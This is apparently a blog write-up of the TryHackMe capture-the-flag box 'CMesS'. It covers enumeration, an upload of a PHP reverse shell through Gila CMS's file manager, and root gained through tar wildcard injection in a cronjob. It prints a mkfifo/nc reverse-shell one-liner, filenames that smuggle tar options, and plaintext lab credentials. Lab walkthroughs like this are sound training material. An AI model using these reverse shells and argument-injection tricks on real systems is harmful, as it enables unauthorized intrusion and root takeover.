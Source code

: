 ```yaml
---
title: TryHackMe - CMesS
date: 2023-02-18
author: Marius
tags: [ctf, 'tryhackme', 'thm', 'linux']
---
```


Medium and free box found in TryHackMe.

### Enumeration

Nmap scan with version and script scan.

```
ORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCvfxduhH7oHBPaAYuN66Mf6eL6AJVYqiFAh6Z0gBpD08k+pzxZDtbA3cdniBw3+DHe/uKizsF0vcAqoy8jHEXOOdsOmJEqYXjLJSayzjnPwFcuaVaKOjrlmWIKv6zwurudO9kJjylYksl0F/mRT6ou1+UtE2K7lDDiy4H3CkBZALJvA0q1CNc53sokAUsf5eEh8/t8oL+QWyVhtcbIcRcqUDZ68UcsTd7K7Q1+GbxNa3wftE0xKZ+63nZCVz7AFEfYF++glFsHj5VH2vF+dJMTkV0jB9hpouKPGYmxJK3DjHbHk5jN9KERahvqQhVTYSy2noh9CBuCYv7fE2DsuDIF
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGOVQ0bHJHx9Dpyf9yscggpEywarn6ZXqgKs1UidXeQqyC765WpF63FHmeFP10e8Vd3HTdT3d/T8Nk3Ojt8mbds=
|   256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFUGmaB6zNbqDfDaG52mR3Ku2wYe1jZX/x57d94nxxkC
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Looks like attach vector will this webserver. Before continuing, I have added domain to the hosts file.

```
└─$ echo "10.10.11.95 cmess.thm" | sudo tee -a /etc/hosts  
10.10.11.95 cmess.thm
```

Directory enumeration:

```
                                                                                                                  
┌──(kali㉿kali)-[~/tryhackme/cmess]
└─$ feroxbuster --url http://cmess.thm --no-recursion

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://cmess.thm
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      109l      291w     3862c http://cmess.thm/category
200      GET      107l      290w     3851c http://cmess.thm/blog
301      GET        9l       28w      312c http://cmess.thm/lib => http://cmess.thm/lib/?url=lib
200      GET      107l      290w     3865c http://cmess.thm/
200      GET        0l        0w        0c http://cmess.thm/api
301      GET        9l       28w      318c http://cmess.thm/assets => http://cmess.thm/assets/?url=assets
200      GET       41l       99w     1580c http://cmess.thm/login
200      GET       41l       99w     1580c http://cmess.thm/admin
301      GET        9l       28w      312c http://cmess.thm/tmp => http://cmess.thm/tmp/?url=tmp
200      GET      101l      272w     3590c http://cmess.thm/author
200      GET      107l      290w     3851c http://cmess.thm/Search
[>-------------------] - 50s      423/30000   58m     found:11      errors:299    
[>-------------------] - 50s      423/30000   58m     found:11      errors:30
```

Directory scan discovered admin login page.

![alt text](/assets/img/cmess/1.png)

Ffuf discovered a sub-domain called **dev**. 

```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://cmess.thm -H "Host: FUZZ.cmess.thm" -fw 522,229,1

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://cmess.thm
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.cmess.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 522,229,1
________________________________________________

dev                     [Status: 200, Size: 934, Words: 191, Lines: 31, Duration: 6565ms]
```

I have added **dev.cmess.thm** to **/etc/hosts** and by accessing this page I have found my first password.

![alt text](/assets/img/cmess/2.png)
andre@cmess.thm:KPFTN_f2yxe% 

### Exploitation

With credentials I have logged on to admin page.

![alt text](/assets/img/cmess/3.png)

After poking around within this website, I found a File Manager which can be used to upload any filetype to the server. I have uploaded a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and was able to receive a reverse shell on my listener.

![alt text](/assets/img/cmess/4.png)

```
└─$ nc -nvlp 80                               
listening on [any] 80 ...
connect to [10.8.25.174] from (UNKNOWN) [10.10.11.95] 52542
Linux cmess 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:53:54 up 15 min,  0 users,  load average: 0.10, 13.00, 13.36
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty;pty.spawn('/bin/bash')"


www-data@cmess:/$ 
www-data@cmess:/$ whoami 
whoami
www-data
```

I have uploaded and spun up **linpeas.sh,** which found a potential PE vector.

![alt text](/assets/img/cmess/5.png)

Aditionally an interesting file was found.

![alt text](/assets/img/cmess/7.png)

Looks like **password.bak** contained password for andre. Which was usde to sucesfully change user.

```
www-data@cmess:/tmp$ cat /opt/.password.bak
cat /opt/.password.bak
andres backup password
UQfsdCB7aAP6

www-data@cmess:/tmp$ su andre
su andre
Password: UQfsdCB7aAP6

andre@cmess:/tmp$ 
```

### Privilege escalation

After sucesfully logging in as andre, I can now write to the backup folder. This can be used to exploit unsecure cronjob to gain access as the root user.

[This article](https://int0x33.medium.com/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e) has a great description on how to exploit this misconfiguration.

```
andre@cmess:~/backup$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.25.174 80 >/tmp/f" > shell.sh
<at /tmp/f|/bin/sh -i 2>&1|nc 10.8.25.174 80 >/tmp/f" > shell.sh             
andre@cmess:~/backup$ echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint-action=exec=sh shell.sh"
andre@cmess:~/backup$ echo "" > --checkpoint=1
echo "" > --checkpoint=1
```

After waiting a minute I received a reverse shell with root privileges.

```
└─$ nc -nvlp 80                               
listening on [any] 80 ...
connect to [10.8.25.174] from (UNKNOWN) [10.10.11.95] 52588
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

